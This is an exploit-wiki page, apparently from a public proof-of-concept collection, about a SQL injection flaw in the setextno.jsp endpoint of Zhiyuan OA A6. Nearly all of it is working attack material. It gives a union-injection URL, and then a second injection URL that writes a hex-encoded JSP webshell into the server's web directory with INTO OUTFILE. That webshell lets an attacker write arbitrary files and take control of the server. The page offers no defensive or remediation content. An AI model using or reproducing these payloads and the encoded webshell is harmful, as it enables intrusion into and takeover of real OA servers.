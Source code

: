 # Zhiyuan OA A6 setextno.jsp SQL injection vulnerability

## Vulnerability Description

Zhiyuan OA A6 setextno.jsp has a SQL injection vulnerability, and can control the server by writing to webshell files through injection

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA A6</span>

## Network surveying and mapping



## Vulnerability reappears

Visit the following Url, which contains union injection

```plain
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-37.png)



View web path



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-38.png)



Write to file and upload Trojan



```plain
https://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-40.png)